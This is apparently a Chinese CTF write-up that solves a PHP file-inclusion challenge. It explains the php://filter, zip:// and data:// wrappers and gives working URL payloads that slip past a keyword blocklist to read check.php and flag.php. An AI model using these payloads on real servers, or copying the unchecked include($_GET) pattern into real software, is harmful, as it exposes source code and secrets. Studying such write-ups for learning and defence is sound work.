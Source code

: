 # 题目 file_include

[![p90PvnJ.md.png](https://s1.ax1x.com/2023/05/08/p90PvnJ.md.png)](https://imgse.com/i/p90PvnJ)

+ 打开网页，是PHP代码审计，有关文件包含函数的运用，代码如下：

  ```php
  <?php
  highlight_file(__FILE__);
      include("./check.php");
      if(isset($_GET['filename'])){
          $filename  = $_GET['filename'];
          include($filename);
      }
  ?>
  ```

## 代码分析

1. $include(file)$：将$file$下的PHP文件插入到当前PHP文件中（在服务器执行$file$之前），后续的代码可以直接使用它的变量，函数，类等等；
   + $require(file)$跟$include(file)$功能相同，只是当文件不存在时，$require$会报错并停止运行，$include$会发出警告继续执行代码；

## 解题过程

+ 本题提供文件包含问题的一个思路：利用php://filter伪协议查看源文件；

### php伪协议总结

####  php://filter伪协议

+ php://filter是php中独有的一种协议，它是一种过滤器，可以作为一个中间流来过滤其他的数据流。通常使用该协议来读取或者写入部分数据，且在读取和写入之前对数据进行一些过滤，例如base64编码处理，rot13处理等；

+ filter的一般语法：

  ```
  php://filter/过滤器/resource=待过滤的数据流
  ```

  - 过滤器可以设置多个，按顺序依次对数据流进行过滤；过滤器大致可分为四类：字符串过滤器、转换过滤器、压缩过滤器、加密过滤器；
  - 过滤器中的$read=$可以省略；

1. 字符串过滤

   举例语法：

   ```
   php://filter/read=string.rot13/resource=data://text/plain,abcdefg       #rot13编码
   php://filter/read=string.toupper/resource=data://text/plain,abcdefg     #大写转化，小写转化使用tolower
   php://filter/read=string.strip_tags/resource=data://text/plain,<a>s</a> #去除PHP，HTML标签
   ```

2. 转化过滤器

   举例语法：

   ```
   php://filter/read=convert.base64-encode/resource=data://text/plain,m1sn0w           #base64编码
   php://filter/read=convert.quoted-printable-encode/resource=data://text/plain,m1sn0w #将不能用ASCII表示的字符转化为两位十六进制数(8bit)
   php://filter/zlib.deflate/resource=flag.php                                         #将数据流进行压缩
   php://filter/zlib.deflate|zlib.inflate/resource=flag.php                            #将数据流进行解压缩
   #压缩解压缩过滤器也可以用：bzip2.compress和bzip2.decompress
   php://filter/read=convert.iconv.utf-8.utf-16/resource=data://text/plain,m1sn0w      #将输入的字符串编码转化为输出的字符串编码
   #格式为：convert.iconv.<input-encoding>.<output-encoding> 或者 convert.iconv.<input-encoding>/<output-encoding>
   ```

   convert.iconv支持的编码格式如下：

   ```
   UCS-4*
   UCS-4BE
   UCS-4LE*
   UCS-2
   UCS-2BE
   UCS-2LE
   UTF-32*
   UTF-32BE*
   UTF-32LE*
   UTF-16*
   UTF-16BE*
   UTF-16LE*
   UTF-7
   UTF7-IMAP
   UTF-8*
   ASCII*
   EUC-JP*
   SJIS*
   eucJP-win*
   SJIS-win*
   ```

#### zip://, bzip2://, zlib://协议

+ zip://， bzip2://，zlib://均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg，png，gif，xxx等等；

+ 举例语法：

  ```
  zip://\var\WWW\phpinfo.jpg#phpinfo.txt #压缩phpinfo.txt文件为phpinfo.zip,重命名压缩包为phpinfo.jpg，再上传
  compress.bzip2://\var\WWW\phpinfo.bz2  #压缩phpinfo.txt文件为phpinfo.bz2并上传
  compress.zlib://\var\WWW\phpinfo.gz    #压缩phpinfo.txt文件为phpinfo.gz并上传
  #它们均支持将压缩包修改为任意的后缀名
  ```

#### data://协议

+ data://可以封装数据格式，用来传递数据；

+ 举例语法：

  ```
  data://text/plain,<?php phpinfo();?> #不做处理，直接传递字符串
  data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+ #将字符串进行base64解码再传递字符串
  ```

### 构造payload

回到本题中，我们可以先尝试使用php://filter读取check.php的文件

payload如下：

```
php://fil1ter/convert.base64-encode/resource=index.php
```

[![p90E8Gq.md.png](https://s1.ax1x.com/2023/05/08/p90E8Gq.md.png)](https://imgse.com/i/p90E8Gq)

 结果被屏蔽了，可能是屏蔽了base64关键字；

对比payload：

```
?filename=php://fil1ter/con1vert.b1ase64-e1ncode/resource=check.php
?filename=php://fil1ter/con1vert.base64-e1ncode/resource=check.php
```

发现base64确实是被过滤了，我们再尝试使用其他的过滤器；

```
?filename=php://filter/string.rot13/resource=check.php
?filename=php://filter/convert.iconv.utf-8.utf-16/resource=check .php
```

发现rot13被屏蔽，iconv有多种编码格式，需要进一步尝试是否被屏蔽，使用BurpSuite Intruder测试；

#### [BurpSuite爆破的四种方式讲解](https://blog.csdn.net/weixin_43487849/article/details/116084562)

Attack方式选择Cluster bomb，如下：

[![p90KZkD.md.png](https://s1.ax1x.com/2023/05/08/p90KZkD.md.png)](https://imgse.com/i/p90KZkD)

通过观察Response长度即可大致判断是否测试成功，有很多种编码都能正确返回check.php的内容

[![p90Kvut.md.png](https://s1.ax1x.com/2023/05/08/p90Kvut.md.png)](https://imgse.com/i/p90Kvut)

一个可能的payload如下：

```
?filename=php://filter/convert.iconv.SJIS-win*.UCS-4*/resource=check.php
```

观察check.php，确实是过滤了$/base~be~encode~print~zlib~quoted~write~rot13~string$这些关键词；

并没有给出$flag$的信息，我们尝试访问$flag.php$也许能得到$flag$，payload如下：

```
?filename=php://filter/convert.iconv.SJIS-win*.UCS-4*/resource=flag.php
```

[![p90MuUU.md.png](https://s1.ax1x.com/2023/05/08/p90MuUU.md.png)](https://imgse.com/i/p90MuUU)

成功得到flag。